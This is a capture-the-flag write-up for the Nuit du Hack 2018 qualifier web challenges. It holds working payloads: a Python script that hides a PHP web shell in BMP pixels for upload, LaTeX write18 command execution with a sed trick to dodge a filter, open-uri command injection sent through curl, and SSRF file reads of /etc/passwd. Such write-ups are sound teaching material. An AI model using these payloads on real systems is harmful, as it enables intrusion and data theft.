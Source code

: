 # Nuit du Hack CTF Quals 2018


**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20180330-nuitduhackctf/) of this writeup.**


 - [Nuit du Hack CTF Quals 2018](#nuit-du-hack-ctf-quals-2018)
   - [Pwn](#pwn)
   - [reverse](#reverse)
   - [Web](#web)
     - [PixEditor (bookgin)](#pixeditor-bookgin)
     - [Linked Out (bookgin)](#linked-out-bookgin)
     - [Crawl Me Maybe (unsolved, written by bookgin)](#crawl-me-maybe-unsolved-written-by-bookgin)
     - [CoinGame (bookgin)](#coingame-bookgin)
     - [WaWaCoin (unsolved, written by bookgin)](#wawacoin-unsolved-written-by-bookgin)
     - [Cryptolol (solved by sasdf)](#cryptolol-solved-by-sasdf)



## Pwn 

## reverse

## Web

### PixEditor (bookgin)

In this challenge, we can POST a list of RGBA pixels, with specific format JPG, PNG, BMP, GIF. After sending the request to the server, we can download the image we just uploaded. The filename will remain the same.

```
data=[255,0,0...]
name=image.JPG
format=JPG
```

My intuition is to upload a web shell. However, I've tried lot of filenames but they all failed. It seems the filename is properly parsed by php `basename()`.

Next, I wonder what will happend if I'm trying to create a filename which is longer than 255 bytes, because the [maximum filename length](https://en.wikipedia.org/wiki/Comparison_of_file_systems#Limits) for `ext4` is 255. To my surprise, a filename with only 55 bytes gets truncated!

- POST filename `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.bmp`
- The server saves the file as `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwx`

The rest is trivial. We just need to manipulate the pixels to create a web shell. Pleases check my script for details.

```python=
#!/usr/bin/env python3
# Python 3.6.4
import requests
import json

payload = '''<?php
system($_GET["j"]);'''

bmp = []
for i in range(0, len(payload), 3):
    bmp += list(payload[i:i+3].encode())[::-1] + [0x00]
bmp += [0 for _ in range(4096 - len(bmp))]
payload = dict(
    data=json.dumps(bmp),
    name='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRST.phpXYZ.BMP',
    format='BMP'
)
print(requests.post('http://pixeditor.challs.malice.fr/save.php', data=payload).text)
```

Just `j=cat /flag` and win.

After I already got the flag, one of my teammate found this in the javascript. However, I didn't notice that.

`inputName.maxLength = 45; // 50 - Len(Extension) - Filename will be truncated if len > 50`

### Linked Out (bookgin)

We can upload a YAML config file, and the website will render the content through LaTeX.

Our first try is to insert some latex syntax `\texttt{GG} \textbf{greatest}`. It gets rendered.

How about some evil RCE latex syntax?

```
\immediate\write18{ls > aaa.txt}
\input{aaa.txt}
```

We soon found the flag is in `/flag`. Nevertheless, we fail to cat it out. We only got a parsing error. That's weird as I'm sure we have read permission via `ls -all /flag`.

After a few tries, we found `cat Makefle`, `pwd` are giving us parsing error. I wonder if there is a WAF. A quick PoC `echo NDH` and `echo a` solves the mystery - it's WAFed. The underscore is WAFed as well.

So we just bypass it with powerful `sed`. Here is the payload:

```yaml=
- '\immediate\write18{cat /flag | sed "s/_/Q/g" | sed "s/NDH/WWW/g"> see}'
- '\input{see}'
```

### Crawl Me Maybe (unsolved, written by bookgin)

The website will crawl the user-provided URL and displays the content. A quick test `url[]=` leads to an error which leaks the ruby source code:

```ruby
require 'open-uri'
require 'nokogiri'


set :bind, '0.0.0.0'
set :port, 8080


get '/' do
  @title = 'Crawl Me Maybe!'
  erb :index
end

post '/result' do
  @title = 'Crawl Me Maybe!'
  url = params["url"]

  if /sh|dash|bash|rbash|zsh/.match(url) || url.match('flag') || url.match('txt') || url.index('*') != nil || (url.index('|') != nil && !(url.index('cat') != nil || url.index('ls') != nil))
    @result = "Attack detected"
    erb :error
  else
    begin
      page = open(url)
    rescue StandardError => e
      @result = "Invalide url"
      erb :error
    else
      begin
        page = Nokogiri::HTML(page) { |config| config.strict }
        @result = "Page well formed !"
        @content = page.text
        erb :result
      rescue Nokogiri::HTML::SyntaxError => e
        @result = "caught exception: #{e}"
        erb :error
      end
    end
  end
end
```

1. `open-uri` is very dangerous. `open('| ls')` results in RCE, while `open('/etc/passwd')` results in local file leaks.
2. CHECK THE WAF CAREFULLY (we fail to do so). It seems working, but in fact, `| ls` is still a valid payload.

Payload:
```shell=
# locate the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; find / | grep fla'
/home/challenge/src/.flag.txt

# get the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; cat /home/challenge/src/.fla?.t?t'
NDH{CUrly_Ruby_J3p53n}
```


This one is acctually very simple, but we are too tired to solve this...... Never stay up late playing CTf, guys.


### CoinGame (bookgin)

The website is a online `curl` service, with PHP as the backend.

`file:///etc/passwd` still works lika a charm, and what's more intriguing is that there is a user named `tftp`.

Let's get information as more as possible:

- source code: `file:///var/www/html/curl.php`
    - PHP curl: We can use `gopher`, though it's useless in the challenge. Refer to [SSRF bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit).
- OS: file:///etc/os-release
- tftp config file: `file:///etc/default/tftpd-hpa`
```
# /etc/default/tftpd-hpa
 
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
```

Nevertheless, we are not able to connect to the tftp remotely. Then, we tried to dig some files under `/home/CoinGame` but none of them works. We got stuck here.......

Suddenly, there arises inspiration in my mind. I start googling the author `Designed by totheyellowmoon`, accidently finding that he has only one repo, which is named `CoinGame`.

Next, just crawl all the contents thorugh `file:///home/CoinGame/README.md` .... and diff with the repo. We found lots of images are not the same, and they contatins the flag.

Hmm, I don't think this challenge is well-designed.

### WaWaCoin (unsolved, written by bookgin)

In the login page, if the username doesn't not exist, we'll get `bad username`. Then, through a quick enumeration we found `admin` exists.

In the manager page, we are set a cookie by the server, `session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861`. The first part is `user=demo` in hex, and the second part is a 20 bytes SHA1-hash. Manipulating the `user=admin` gets nothing, as the second part SHA1 seems like a signature. Therefore, the server will validate the signature and the first part.

Later we found the category of the problem is updated to `crypto/web`, so length extension attack comes to my mind.

However, we only send the payload to `/stealmoney` and `/login`. What's worse, we doesn't follow the redirect. In fact, one of the payload readlly works, but we send to the wrong API. Sending to `/stealmoney` will always redirect you to other page. The correct one is `/manager`.

You can check [@Becojo's script](https://gist.github.com/Becojo/17dbd49b5e8f25d9d7534afc2ed76c64) for more detail. It seems that appending `;user=admin` or `&user=admin` both works.

@sasdf, @sces60107 and I acctually spent 6+ hours on the frustrating challenge (sob).

### Cryptolol (solved by sasdf)

To be completed
